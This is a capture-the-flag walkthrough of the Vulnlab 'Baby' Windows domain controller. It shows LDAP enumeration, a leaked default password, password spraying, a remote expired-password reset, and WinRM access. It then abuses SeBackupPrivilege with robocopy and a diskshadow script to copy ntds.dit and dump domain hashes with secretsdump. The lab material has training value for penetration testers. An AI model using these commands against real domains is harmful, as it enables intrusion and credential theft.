 ```yaml
---
title: Vulnlab - Baby
date: 2025-01-12 17:00:00 +/-TTTT
categories: [VulnLab]
tags: [smbpasswd, SeBackupPrivilege]     # TAG names should always be lowercase
image : /assets/images/baby_slide.png
---
```





    ➜  baby nxc smb 10.10.66.181
    SMB         10.10.66.181    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False)

there is no Guests access and smth like that so lets do ldapsearch
### ldapsearch
    ➜  baby ldapsearch -x -b "dc=baby,dc=vl" -H ldap://10.10.66.181 > ldap_resul.txt

Now we can analyze it but its huge to read one of one so;

    ➜  baby cat ldapresult.txt | grep -i "password"
    badPasswordTime: 0
    memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl
    memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=baby,DC=vl

    description: Set initial password to BabyStart123!
got password but there is no users list yet we alraedy know sAMAccountname inital with usernames,groups etc.

    ➜  baby cat ldapresult.txt | grep -i "sAMAccountname"

    sAMAccountName: dev
    sAMAccountName: Jacqueline.Barnett
    sAMAccountName: Ashley.Webb
    sAMAccountName: Hugh.George
    sAMAccountName: Leonard.Dyer
    sAMAccountName: it
    sAMAccountName: Connor.Wilkinson
    sAMAccountName: Joseph.Hughes
    sAMAccountName: Kerry.Wilson
    sAMAccountName: Teresa.Bell
    sAMAccountName: Caroline.Robinson

for save it clearly.

    ➜  baby cat ldap-user.txt | awk '{print $2}'
    dev
    Jacqueline.Barnett
    Ashley.Webb
    Hugh.George
    Leonard.Dyer
    it
    Connor.Wilkinson
    Joseph.Hughes
    Kerry.Wilson
    Teresa.Bell
    Caroline.Robinson

    ➜  baby cat ldap-user.txt | awk '{print $2}' > users.txt
## STATUS_PASSWORD_MUST_CHANGE
    ➜  baby nxc smb BABYDC -u users.txt -p 'BabyStart123!' --continue-on-succes

    SMB         10.10.66.181    445    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE

https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/

    ➜  baby python3 smbpasswd.py  'Caroline.Robinson:BabyStart123!@baby.vl' -newpass Password123!
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

    [!] Password is expired, trying to bind with a null session.
    [*] Password was changed successfully

    ➜  baby nxc smb BABYDC -u users.txt -p 'Password123!' --continue-on-succes

    SMB         10.10.66.181    445    BABYDC           [+] baby.vl\Caroline.Robinson:Password123!

we have also winrm-shell

    ➜  baby nxc winrm BABYDC -u Caroline.Robinson -p 'Password123!' --continue-on-succes
    WINRM       10.10.66.181    5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
    WINRM       10.10.66.181    5985   BABYDC           [+] baby.vl\Caroline.Robinson:Password123! (Pwn3d!)

## SeBackupPrivilege

    *Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /all

    SeBackupPrivilege             Back up files and directories  Enabled

### Here is fast root

    *Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> robocopy /b C:\Users\Administrator\Desktop .; cat root.txt

    ---

    VL{REDACTED}

### DUMP ntds.dit and system then crack admin hash;
    ➜  baby cat raj.dsh
    set context persistent nowriters
    add volume c: alias raj
    create
    expose %raj% z:

using unix2dos

    ➜  baby unix2dos raj.dsh
    unix2dos: converting file raj.dsh to DOS format...

and uploda it at C:\ProgramData

    *Evil-WinRM* PS C:\ProgramData> diskshadow /s raj.dsh

    *Evil-WinRM* PS C:\ProgramData> robocopy /b z:\windows\ntds . ntds.dit

download ntds.dit
download system

and 

    impacket-secretsdump -ntds ntds.dit -system system local

😉